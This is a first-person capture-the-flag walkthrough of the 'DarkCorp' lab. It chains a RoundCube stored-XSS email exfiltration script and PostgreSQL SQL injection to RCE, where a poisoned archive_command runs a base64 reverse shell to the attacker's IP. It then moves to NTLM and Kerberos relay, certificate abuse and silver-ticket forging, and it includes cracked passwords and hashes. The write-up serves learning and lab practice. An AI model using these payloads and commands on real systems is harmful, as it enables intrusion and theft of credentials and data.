DarkCorp
DarkCorp was an insane-difficulty multi-machine Active Directory environment that began with exploiting CVE-2024-42009, a stored XSS vulnerability in RoundCube 1.6.7.
I created a JavaScript payload to exfiltrate emails from the security engineer bcase through the contact form, which revealed a password reset token granting me access to an internal dashboard.
The dashboard contained a search function vulnerable to PostgreSQL SQL injection with superuser privileges. I exploited this by manipulating the Write-Ahead-Logging configuration through lo_import/lo_export functions, injecting a malicious archive_command into postgresql.conf that executed a base64-encoded reverse shell, gaining access as the postgres user.
I discovered an encrypted database backup in /var/backups/postgres, which I decrypted using credentials from the Flask app's .env file, revealing MD5 hashes for ebelford and victor.r.
SSH access as ebelford provided a foothold on the Linux machine at 172.16.20.3.
Network enumeration through a Ligolo tunnel revealed an internal subnet with DC-01 at 172.16.20.1 and WEB-01 at 172.16.20.2. I exploited disabled LDAP signing on the DC by configuring an NTLM relay that captured svc_acc's authentication, discovering this account was a member of DnsAdmins. I pivoted to a Kerberos relay attack by adding a specially crafted DNS record (DC-011UWhRCAAAA...) that forced Kerberos authentication while maintaining DC connectivity, then used krbrelayx.py to relay the authentication to the ADCS endpoint at https://dc-01.darkcorp.htb/certsrv/, requesting a Machine certificate for WEB-01. I authenticated with this certificate using certipy−ad to obtain WEB−01's NT hash (8f33c7fc7ff515c1f358e488fbb8b675).
Using the domain SID and WEB-01$'s hash, I forged a silver ticket for Administrator access to WEB-01 with impacket-ticketer, then dumped SAM hashes using netexec to retrieve the local Administrator hash (88d84ec08dad123eb04a060a74053f21). After gaining WinRM access, I used netexec's --dpapi flag to remotely extract DPAPI masterkeys, revealing Administrator's password "But_Lying_Aid9!". I decrypted additional masterkeys and a credential blob with impacket-dpapi, uncovering the password "Pack_Beneath_Solid9!" which I sprayed against the domain to discover john.w's credentials.
BloodHound enumeration revealed john.w had GenericWrite over angela.w, which I exploited using certipy-ad's shadow credentials attack to obtain angela.w's NT hash. I then performed UPN spoofing by using bloodyAD to set angela.w's userPrincipalName to "angela.w.adm", exploiting the authentication difference between Windows SSPI/PAC validation and Unix GSSAPI/UPN validation. I requested an NT_ENTERPRISE ticket with impacket-getTGT and transferred the ccache file to the Linux machine, using ksu to authenticate as angela.w.adm.
Enumeration of SSSD files in /var/lib/sss/db revealed a cached SHA512 hash which cracked to "!QAZzaq1", belonging to taylor.b.adm who was a member of the gpo_managers group.
Taylor had FullControl over the "SecurityUpdates" GPO (GUID 652CAE9A-4BB7-49F2-9E52-3361F33CE786), which I exploited remotely using pyGPOAbuse to create a local administrator account named john with credentials "john:H4x00r123..", achieving full domain compromise via WinRM to DC-01
User flag
Initial nmap scan reveals just 2 ports, SSH and a website on 80. The results point towards a Linux host, but DarkCorp was listed as a Windows machine, which means that it is most likely a multi-machine scenario.
Investigating the website
I will add drip.htb to my hostfile, under the DarkCorp IP.
This is a website for an Email client of some sort. I can see that it is using RoundCube under its hood, which is good to remember for the future.
The sign-in button points towards mail.drip.htb, which will also be added to my hostfile.
It leads to a RoundCude login page, but I have no credentials. I will check the page's source code, as it might reveal RoundCube's version number.
Taking a closer look at rcmail.set_env, it reveals a ton of information, including the rcversion":10607 value, which discloses the RoundCube version as 1.6.7.
Searching the web has quickly led me to CVE-2024-42009, a stored XSS vulnerability in RoundCube versions through 1.5.7 and 1.6.x through 1.6.7 via a desanitization issue in message_body(), which fits with the DarkCorp instance. I also found a PoC on GitHub for this CVE: https://github.com/0xbassiouny1337/CVE-2024-42009
This is explained much better in the article below.
https://www.sonarsource.com/blog/government-emails-at-risk-critical-cross-site-scripting-vulnerability-in-roundcube-webmail/
Preparing the exploit
I created an account of test:test@dripmail.htb on the website, and got my own RoundCube mailbox. After looking around, I made a crucial discovery:
http://mail.drip.htb/?_task=mail&_caps=pdf%3D1%2Cflash%3D0%2Ctiff%3D0%2Cwebp%3D1%2Cpgpmime%3D0&_uid=1&_mbox=INBOX&_action=show
This is the URL of an opened Email. Take a look at the UID variable. If I had more than 1 email, I could switch between them by incrementing this number.
It is crucial because it will allow me to cycle through the target's Emails and exfiltrate all of them. I just need a reliable script and a payload that will do the hard work for me.
Creating an XSS payload
I began working on the payload first, as I could test it quickly by targeting my own mailbox(via devtools).
for (let i = 1; i <= 5; i++) {
fetch(`/?_task=mail&_action=show&_uid=${i}&_mbox=INBOX&_extwin=1`)
.then(response => response.text())
.then(email_html => {
console.log(`--- SUCCESSFULLY FETCHED EMAIL UID: ${i} ---`);
console.log(email_html.substring(0, 500));
})
.catch(error => {
console.error(`--- FAILED TO FETCH EMAIL UID: ${i} ---`, error);
});
}
This errored out because of a missing CSRF token. I can grab one dynamically from the page itself by adding a single line, as it is saved in the RoundCube environment.
const csrfToken = rcmail.env.request_token;
This worked somewhat, but it did not return the message. That is because the Email contents are stored in a div with an ID of messagebody

I modified the script to look for a div with an ID of messagebody. Now it should correctly cycle through the set amount of UIDs and grab the message contents.
const csrfToken = rcmail.env.request_token;
console.log("Using CSRF Token:", csrfToken);
for (let i = 1; i <= 5; i++) {
const url = `/?_task=mail&_action=show&_uid=${i}&_mbox=INBOX&_extwin=1&_token=${csrfToken}`;
fetch(url)
.then(response => response.text())
.then(email_html_string => {
const parser = new DOMParser();
const emailDoc = parser.parseFromString(email_html_string, "text/html");
const messageBody = emailDoc.getElementById('messagebody');
if (messageBody) {
console.log(`{!} SUCCESS! Found Email Body for UID: ${i}`);
console.log(messageBody.innerHTML);
} else {
console.error(`{X} FAILED for UID: ${i}. Fetched the page, but couldn't find a #messagebody div. The email might not exist or is empty.`);
}
})
.catch(error => {
console.error(`{X} ERROR FOR UID: ${i}`, error);
});
}
Wrapping the JS payload in a reliable script
I crafted a robust python script that would send a malicious message through the contact form. This is because I can manipulate the request to change the intended receiver.
However, I did not get any hits with my current JS payload. While I received a message on my RoundCube inbox, I only saw a broken attachment, which was not what I expected.
This made me change my plans, and I moved the loop logic to the python script. Now, the JS payload will simply fetch whole pages, and as many as there are UIDs specified.
I've also added a listener, which will catch and decode(from b64) any exfiltrated emails.
5 E-mails, each targeting a different UID, were sent to my inbox, and after opening one of them:
The contents have been successfully exfiltrated.
Finding a target user
A working exploit will not give me anything without a viable target user. I returned to the contact form and changed the receiver from support to my test account, just to see whether this would reveal any information.
It revealed an email of the security engineer, bcase@drip.htb. This seems like a prime target for the exploit, so I adjusted the exploit script to target bcase.
Bcase opened the XSS messages after a few seconds, and a dashboard was revealed. I will add it to my hostfile before proceeding.
Resetting bcase's password on the dashboard
Since I can exfiltrate bcase's Email messages, I should be able to reset their password and log in to this dashboard.

I requested a reset token, which landed in bcase's Email. Then I reran the exploit script, hoping to see a password reset link.
Success! I quickly opened the link in my browser, set bcase's password to test, and finally logged into the dashboard.
SQL injection in the search functionality
Right after getting onto the dashboard, I immediately noticed a search bar. Inputting a random string of text like "test" reveals an interesting error message.
Psycopg2 is a PostgreSQL database adapter for python. Notice how in the error message, my input is not enclosed with quotes at all. Let's see what will happen if I input 'test' into the search bar.

There was no error this time. I'll add an additional statement to the query in order to see whether the injection is successful.
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md
Reading local files via Postgres SQLi
I ran another query to see which users had the DB Administrator rights. If dripmail_dba is on the list, it'll allow me to perform most of the actions.
'test';SELECT usename FROM pg_user WHERE usesuper IS TRUE
This confirms that my user has superuser privileges over this DB. I will run a few more commands to gather more information about the underlying environment.
https://hackviser.com/tactics/pentesting/services/postgresql
'test';SELECT name, setting FROM pg_settings WHERE name LIKE 'log%';
Logs often contain sensitive data, hence why I'll enumerate any available log files first.
The logfiles are located in the log directory. I understood this as the /var/log directory, which would also have an additional directory for PostgreSQL itself.
'test';select pg_ls_dir('/var/log/postgresql');
There are 2 "unpacked" logfiles. I will read both of them, starting with postgresql-15-main.log
The logfiles did not contain anything useful. Superuser privileges allow me to do a lot of things on the DB, so I'll pivot to something else.
Postgresql RCE via config file manipulation(Write-Ahead-Logging)
While researching potential RCE methods, I stumbled upon an article that explains an interesting method used in a similar scenario.
https://thegrayarea.tech/postgres-sql-injection-to-rce-with-archive-command-c8ce955cf3d3
The article explains it very well, but in short, it is an RCE method achievable by PostgreSQL config file poisoning with an arbitrary archive_command
I'll follow the steps outlined in the article above. First, making sure that WAL archiving is enabled.
'test';SELECT current_setting('archive_command')
Then, I'll exfiltrate the original postgres.conf file. I'll get its loid(large object ID).
'test';SELECT lo_import('/etc/postgresql/15/main/postgresql.conf')
Now I will use this ID to actually export the config. This will display it back and allow me to copy it to my local machine.
'test';SELECT encode(lo_get(105117), 'escape')
Overwriting the config

The target option is empty. I'll add a base64 encoded reverse shell between the single quotes.
echo "IGJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuODIvOTAwMSAwPiYxCg==" | base64 -d | bash
While in the article, a perl reverse shell was used, I'll go forward with my bash command. If it fails to work, I will switch to perl.
And this is when I stumbled upon the first big issue. Uploading a very, very big b64 string would lead me to a 502 bad gateway error, so this was out of the question.
Instead, I've decided on a different approach. I will create a minimal config consisting of 2 lines:
archive_mode = on
archive_command = 'echo "IGJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuODIvOTAwMSAwPiYxCg==" | base64 -d | bash'
Then I will add an include option to the original config file, which will point to this minimal one. Since it will be lower in the config itself, it should take precedence over the earlier option.
'test';SELECT lo_from_bytea(9999, decode('<BASE64>', 'base64'))
This command loads the decoded b64 config into the large object 9999.
'test';SELECT lo_export(9999, '/tmp/mini.conf')
And this exports the decoded contents to a file on the target filesystem.
'test';SELECT lo_export(105117, '/tmp/postgres.conf')
I've also copied the original config into a different file, so that it doesn't get accidentally destroyed by my experiments.
Now I will get the LOID of the new config file.
'test';SELECT lo_import('/tmp/postgres.conf')
With all this, I'll use lo_put to append the include option at the end of my config file. It would be very risky to overwrite the original archive command option, as even if a single character is overwritten where it should not be, the config file will be rejected and the plan will fail.
To do so, I will grab the total length of my copied config file.
'test'; SELECT length(lo_get(112138));
The result is 39682. Lo_put requires 3 values. The LOID, the offset at which the edit will happen, and the data. If I specify the offset at the file's end, data will be appended right at the end.
'test'; SELECT lo_put(112138, 39682, convert_to(E'\n# Custom includes by kalin\ninclude = \'/tmp/mini.conf\'\n', 'UTF8'))
Let's take a look at the ending of this file after exporting it.
'test'; SELECT pg_read_file ('/tmp/postgres.conf')

Success! Now I'll overwrite the real config with my malicious one(always make a backup beforehand!)
'test';SELECT lo_export(112138, '/etc/postgresql/15/main/postgresql.conf')
However, this did not trigger a response either.
Appending malicious code to the main config file
After all the failed attempts, I decided to go back to the beginning. The plan of uploading the entire base64-encoded config file failed because it was too big, and I was blocked by a 502 bad gateway error.
I decided to experiment a little and removed every line that starts with a comment #, and every line that starts with a space.
This will leave every used option in, but will significantly shorten the resulting base64, which could allow me to send it through.
grep -vE '^#|^$|^ ' postgres.conf > postgresql.min.conf
This is significantly shorter! It will most likely succeed with uploading now.
'test';SELECT lo_from_bytea(9001, decode('<BASE64>', 'base64'))
It worked, and I immediately exported it to /tmp/postgres.conf.
Then, I exported it into the original .conf file.
And this time, even though the 'test';SELECT current_setting('archive_command') command output was blank.
There was a successful hit on my listener, and a shell was established.
Reconnaissance on the Linux machine
While looking around, I discovered a directory /var/backups/postgres, which held an encrypted .sql file.
Since I have a shell as the database user, I should be able to decrypt it.
Decrypting the database backup
It throws a missing secret key error. While this sounds scary, it doesn't necessarily mean a missing GPG key. The main use of the postgres database I've seen on the website was on the dashboard, so I'll take a look at its files under /var/www/html/dashboard

{kind=link}
{kind=link}
I can see that it takes values from an .env file. One of these values is the DB_PASSWORD variable, which could be the key to unlocking the .sql file.
And there's the password, found inside of this Flask app environment. Let's see if this will allow me to decrypt the backup.
After a bit of research, I learned that I can pass the passphrase directly into the terminal if the --pinentry-mode flag is set to loopback.
gpg --homedir /var/lib/postgresql/.gnupg --pinentry-mode=loopback --passphrase '2Qa2SsBkQvsc' --decrypt /var/backups/postgres/dev-dripmail.old.sql.gpg > dev-dripmail.old.sql

Successfully decrypted! Now I'll transfer this file onto my box so that I can look through it easily.
cat dev-dripmail.old.sql | grep pass -C 5

There are 6 different hashes in total. They look like MD5 hashes, so I'll use crackstation to check if they're crackable.
ebelford | ThePlague61780
victor.r | victor1gustavo@#
Hashes for ebelford and victor.r cracked. I'll try to SSH into the Linux box, as it might be a nice checkpoint to continue from.

Setting up a Ligolo tunnel
With this safe point now in hand, I continued to enumerate the Linux box. Soon after, I found a local subnet to enumerate.

I will create a tunnel between the Linux box and my host with Ligolo.
sudo ip tuntap add user kalin mode tun ligolo
sudo ip link set ligolo up
sudo ip route add 172.16.20.0/24 dev ligolo
To enumerate the subnet quickly, I'll use a ping command in a loop to ping the first 10 IPs of the subnet. Remembering that the Linux box itself has the IP address of 172.16.20.3.
for i in $(seq 1 10); do ping -c 1 172.16.20.$i; done
Aside from the Linux box, there are machines at 172.16.20.1 and 172.16.20.2. Scanning each of them with nmap is the next step.

172.16.20.1 is the domain controller.

And 172.16.20.2 is WEB-01, which has an interesting entry at port 5000, requiring credentials to access.
|_http-title: 401 - Unauthorized: Access is denied due to invalid credentials.
NTLM Relay against WEB-01

As shown by nmap, this website requires credentials. I'll try the ones I've gotten from the database.
Credentials for victor.r unlock the website, and a status monitor application is revealed. It seems to be reaching out to WEB-01 periodically every few minutes.
Preparing the relay attack
SMB Signing on WEB-01 is disabled. It is a protective measure that ensures signing for every SMB message, which effectively negates any sorts of tampering, like relay attacks over SMN. A similar situation occurs on the DC itself, but with LDAP signing. This means that regular NTLM Relay attacks are viable, and as soon as someone authenticates to the Linux box, I'd be able to relay back that authentication back to the DC.
To set the plan in motion, I'll need a few extra steps. The Linux box does not have python, so I can't just transfer ntlmrelayx there. Instead, I'll forward one of the ports back to my host using Ligolo.
listener_add --addr 172.16.20.3:8080 --to 127.0.0.1:80 --tcp
I'm using 8080 here, because from the nmap results, I know for sure that it is an unused port. Lower port numbers (<1000) also require root permission to use on Linux, which eliminates port 443 from use.
impacket-ntlmrelayx -t ldap://172.16.20.1 -i -smb2support
An authentication attempt from svc_acc was successfully relayed to DC01!. Now that I know which user's auth I can relay, I'll get more information about the account.

Checking the groups gives me a lot of information, but most importantly for now, the svc_acc account is a member of the DnsAdmins group. This group can modify and add DNS records on the domain, which could allow me to exploit a different relay attack.
Kerberos Relay against WEB-01

I cannot add rights over svc_acc to other controlled accounts, nor can I add a computer account. The computer account addition was a crucial step in a different scenario involving Kerberos relay that I did recently. Without it, I will have to figure out a different way.
The attempted takeover or svc_acc was supposed to make operating with it easier, but I can still perform certain tasks using its relayed credentials.
impacket-ntlmrelayx -t ldap://172.16.20.2 -smb2support --add-dns-record 'hexicon' '10.10.16.82'
This allows the target machine to reach my box, after coercing the auth with netexec's SMB module coerce_plus
nxc smb 172.16.20.2 -u victor.r -p 'victor1gustavo@#' -M coerce_plus -o L=hexicon

Coercing authentication to hexicon results in an NTLM hash being sent, which is not what I want. There are 2 ways that I know of to force a Kerberos authentication attempt:
-
Connecting to a rogue computer object - It requires a controllable computer object, for which we can add an SPN, DNS record, and the DnsHostName attribute. Setting this all up allows us to coerce the machine to authenticate to us with Kerberos.
-
This is something I've found on HackTricks. By using a specially crafted DNS record, we can "trick" the machine into authenticating to us, and still keep it able to request a ticket from the DC. This can then be relayed further to fulfill our goals.
https://www.thehacker.recipes/ad/movement/kerberos/relay
Setting up the Kerberos Relay attack
First, let's make sure that the certificate enrollment endpoint exists on DC-01. Remembering that DC-01 was in the cert-related group, I am fairly confident that it does.
https://dc-01.darkcorp.htb/certsrv/certfnsh.asp
It exists! Next, I will add all the necessary records to my hostfile.
172.16.20.2 WEB-01
172.16.20.1 dc-01.darkcorp.htb
According to the article, the minimal CREDENTIAL_TARGET_INFORMATION structure contains 1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA(marshalized string), and the NetBIOS name(hostname) of the DC should be appended to the front, resulting in the following record:
DC-011UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA
While trying to coerce another authentication attempt, using the netexec module became impossible due to a The NETBIOS connection with the remote host timed out. error. I pivoted to using the regular PetitPotam.py script instead.
python PetitPotam/PetitPotam.py -u victor.r -p 'victor1gustavo@#' DC-011UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA WEB-01

In a different terminal, I launched krbrelayx.py. This time, relaying the credentials to the discovered Cert Enrollment endpoint, and requesting a certificate for the WEB-01$ machine account, with the machine template.
python /home/kalin/DarkZero/krbrelayx/krbrelayx.py -t 'https://dc-01.darkcorp.htb/certsrv/certfnsh.asp' --adcs --template Machine -v 'WEB-01$'

Certificate successfully received! Now I can use it to authenticate to DC-01 as WEB-01$ and retrieve the latter's NTLM hash.
certipy-ad auth -pfx 'WEB-01$.pfx' -dc-ip 172.16.20.1

WEB-01$ | 8f33c7fc7ff515c1f358e488fbb8b675
Forging a silver ticket for the administrator over WEB-01
Trying to use impacket's secretsdump on the WEB-01 machine returns a 0x5 - rpc_s_access_denied error. This could mean that the machine account does not have the necessary permissions to perform this action.
Since I also cannot add machine accounts, I will have to find a different way. Namely, I'll create a silver ticket for the administrator over the WEB-01 machine. For this, I need 2 crucial things:
-
NT hash of the account/service the ticket will be for(example: CIFS/WEB-01.darkcorp.htb or MSSQL/some.domain.name)
-
The domain SID
To get the domain SID, I can use netexec over LDAP with the --get-sid flag.
nxc ldap 172.16.20.1 -u 'WEB-01$' -H '8f33c7fc7ff515c1f358e488fbb8b675' --get-sid
This is everything I need to forge a silver ticket. The tool for that will be impacket's ticketer.
impacket-ticketer -spn CIFS/WEB-01.darkcorp.htb -domain-sid S-1-5-21-3432610366-2163336488-3604236847 -domain darkcorp.htb -nthash 8f33c7fc7ff515c1f358e488fbb8b675 Administrator
